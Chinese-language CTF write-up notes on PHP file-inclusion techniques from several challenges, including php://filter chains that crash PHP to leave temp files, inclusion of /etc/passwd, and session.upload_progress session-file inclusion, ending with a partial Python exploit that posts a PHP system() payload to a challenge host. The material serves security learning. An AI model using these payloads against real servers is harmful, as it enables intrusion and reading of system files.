 php7会发生segment fault

-   php<7.2

    ```none
    php://filter/string.strip_tags/resource=/etc/passwd
    ```

-   php7老版本通杀

    ```none
    php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%
    ```

扫描后有个dir.php

`array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "phpv8XxU1" }`

直接包含这个文件就行

`/flflflflag.php?file=/tmp/phpv8XxU`

### 解法二：session.upload_progress

>   在PHP>5.4，`session.upload_progress.enabled`这个参数在`php.ini`中默认开启，在上传的过程中会生成上传进度文件，PHP将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ，它的存储路径可以在`phpinfo`中查到

php>5.4,尝试利用session.upload_progress进行session文件包含

-   开启upload_progress功能
    session.upload_progress.enabled = on
-   当文件上传结束后，php将会立即清空对应session文件中的内容
    session.upload_progress.cleanup = on

>   session.upload_progress.prefix = “upload_progress_”
>   session.upload_progress.name = “PHP_SESSION_UPLOAD_PROGRESS”

-   session.use_strict_mode=off

    表示对cookie中的sessionid可控，默认off。即使没有`session_start()`，也可以自己定义PHPSESSID，并且PHP会自动初始化session，并产生一个键值，这个键值由`session.upload_progress.prefix`和`session.upload_progress.name`组成，最后被写入session文件里。比如在Cookie里设置PHPSESSID=flag，PHP将会在服务器上创建一个文件：`/tmp/sess_flag`

    >   在Linux系统中，session文件一般的默认存储位置为/tmp或/var/lib/php/session

## [FireshellCTF2020]Caas

随便输入点东西，根据报错发现是c

可以包含一些东西，比如/etc/passw等，那就直接含falg

## [WMCTF2020]Make PHP Great Again

非预期解是使用`session.upload_progress`，但是buu发送请求过快不行，就给个exp：

```python
import requests
import threading
url = 'http://88c45695-e5ef-421c-94df-133d9b15eafd.node3.buuoj.cn/'
 
 
def write(session):
    while True:
        re = session.post(
            url=url,
            data={
                'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat flag.php");?>hacker123',
            },
            files={"file": ('hello.txt', open("test.txt", "r"))},
            cookies={'PHPSESSID': 'flag'})
        print(re.text)
```